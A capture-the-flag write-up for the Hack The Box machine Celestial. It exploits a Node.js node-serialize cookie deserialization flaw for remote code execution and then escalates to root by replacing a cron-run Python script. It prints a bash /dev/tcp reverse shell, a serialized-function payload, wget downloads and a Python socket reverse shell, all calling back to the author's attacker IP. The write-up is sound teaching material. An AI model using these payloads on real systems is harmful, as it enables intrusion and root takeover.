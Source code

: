 # Celestial [HTB](https://app.hackthebox.com/machines/130)
![celestial-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/celestial-01.png)

## Recon

After adding an entry for our target in `/etc/hosts`, i start enumerating with `namp`:

```bash
nmap -sC -sV -A -p- celestial.htb -oN nmap.result
``` 

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/nmap-res-02.png)

We have a single `Node.js` web server running on port 3000, lets take a look at it.


### Node.js Express Port 3000

Lets start by openning the site at `http://celestial.htb:3000`

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/site-03.png)

Ok, not much to see here, lets open `Burp` and take a closer look at what's happenning in the background:

![burp-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/burp-04.png)

When we make an initial request, Altough the server replied with a `200` OK HTTP status, it prints
out a `404` text header. Along with that, the server gives us a cookie. If we then refresh the page, 
our client requests the same root directory, but this time adds the cookie and now we get the page:

![cookie-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/cookie-05.png)


So the cookie is being used here for something. 

When I initially researched `Node.js` cookies, I found [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nodejs-express)'s page, that describes a tool to decrypt the cookies. But then i nocited that the cookie format is different from whats been given to us be the target. So this tool wont help us. 

Then i took a closer look at the cookie itself, at first i thought it was encrypted with a strong 
encryption algorithm, but still I decided to check it againts [hash-identifier](https://hashes.com/en/tools/hash_identifier):

![base64-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/base64-06.png)

If we take our cookie and [decode](https://www.base64decode.org/) it we see the following:

![decode-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/decode-07.png)

So the cookie is just a base64 encoded JSON data. The `username` and `num` keys are interesting. 
I think they are used to render the text on the main page. Lets set the `num` argument to `4` encode it and send it to the target:

![num-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/encode-08.png)

Now lets send that to the server as the cookie and see what happens:

```bash
curl -H 'Cookie: profile= eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjQifQo=' http://celestial.htb:3000
```

![response-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/response-09.png)

We can see the response has changed. We can conclude from this that the server is using data extracted
from the cookie to render the web page. And since we can easily control what goes in the cookie, we can 
possibly temper with the server's backend. 

Now the question is, how we can leverage this to get access to the system? 

So i started to play around with different payloads, like `"num": "id"`. Which lead me to an interesting error:

![eval-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/evaul-10.png)

The `eval()` function in JavaScript evaluates and executes java code, this is a potential attack vector. 
So i tried to to send a reverse shell with the different payloads. None worked for me, but the following one brought yet another interesting error:

```java
"num":"exec(\"/bin/bash -c 'exec 5<>/dev/tcp/10.10.14.61/443;cat <&5 | while read line; do $line 2>&5 >&5; done'\");"
```

![unserialize-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/unserialize-11.png)


While googeling this error, i came across an interesting [artical](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/). Apperantly, in some versions of the `node-sirialize` module, we can execute arbitrary code by declaring a serialized function passed inside a cookie and immediatly invoke it with a function expression. 

I've tried to find a working payload for quite some time, I tried a few different exploits from `ExploitDB`, but they did not work for me. So i decided to use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) script to generate a JavaScript reverse shell payload.

After downloading the script, i generated my payload with:

```bash
./nodejsshell.py 10.10.14.61 443
```

![gen-payload-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/gen-payload-12.png)

This results in a rather large output. I took the `<nums>` output and wrapped it inside a serliazed function, invoking it at the end with `()`:

```javascript
"_$$ND_FUNC$$_function (){eval(String.fromCharCode(<nums>))}()"
```

I took the payload and placed it as the value for the `num` property in the cookie and base64 encoded it:

![encode-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/encode-13.png)


I started my listener with:

```bash
rlwrap nc -lnvp 443
```

And i sent the payload to the target:

![send-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/send-14.png)

This gave me access to the system:

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/shell-15.png)


## Privilege Escalation

The first thing i did after landing the shell was to upgrade it with:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

![upgrade-shell-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/upgrade-shell-16.png)

Now it's a bit more intuitive. 

Then i tried to snatch quick wins by running `history`, `sudo -l`, as well as `find / -perm -4000 2>/dev/null` but with no luck. 

If we take a look at our user's group membership with `id` we can see that our user is a part of the `sudo` and `adm` groups, but in order to use `sudo` we need our user's password which i wasnt able to find. 

So instead i decided to have a look around the system, if we list out the contents of our home folder we will se somthing interesting:

![home-dir-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/home-folder-17.png)

We have a text file in our home folder owned by root, this is unusual. I'm thinking that a task is 
probably running in the background doing this. Lets get [pspy64](https://github.com/DominicBreuker/pspy)
on the target and take a look at the background processes. 

Use a python server to host the file with:

```bash
python3 -m http.server 80
```

Download the file from the target and execute it using:

```bash
wget http://10.10.14.61/pspy64
chmod +x pspy64 
./pspy64
```
![task-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/task-18.png)

Here it is. We have root (UID 0), spwaning `/bin/sh` to run a python script found in our user's `~/Documents` directory. The output from the script is saved to the `output.txt` file we saw earlier. 

In the task, we can see a few different commands here are being executed, but we only really care about the first one, if we can inject code into this file we can pop a reverse shell as root. Everything after the first command will be halted due to the reverse shell connection.

What i ended up doing, is creating a pyhton reverse shell script in my Kali machine:

```python
import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.61",9001));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
```

Then, i deleted the orignal `script.py` on the the target and downloaded my version with:

```bash
rm script.py 
wget http://10.10.14.61/script.py
```

Then i started my listener with:

```bash
rlwrap nc -lnvp 9001
```

And waited for the connection:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/root-19.png)



